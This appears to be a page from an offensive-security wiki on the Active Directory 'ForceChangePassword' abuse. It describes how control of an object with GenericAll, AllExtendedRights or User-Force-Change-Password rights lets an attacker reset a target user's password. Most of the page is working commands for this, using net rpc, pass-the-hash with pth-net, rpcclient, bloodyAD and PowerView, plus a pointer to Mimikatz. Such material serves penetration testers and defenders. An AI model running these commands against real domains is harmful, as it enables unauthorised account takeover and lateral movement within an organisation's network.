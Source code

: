 ```yaml
---
authors: 'CravateRouge, ShutdownRepo, sckdev'
category: ad
---
```


# ForceChangePassword

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.

::: tabs

=== UNIX-like

It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../ntlm/pth.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

# With net and cleartext credentials
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

# With Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password "$TargetUser" "$NewPassword"
```


=== Windows

The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

Mimikatz's [`lsadump::setntlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/setntlm) can also be used for that purpose.

:::

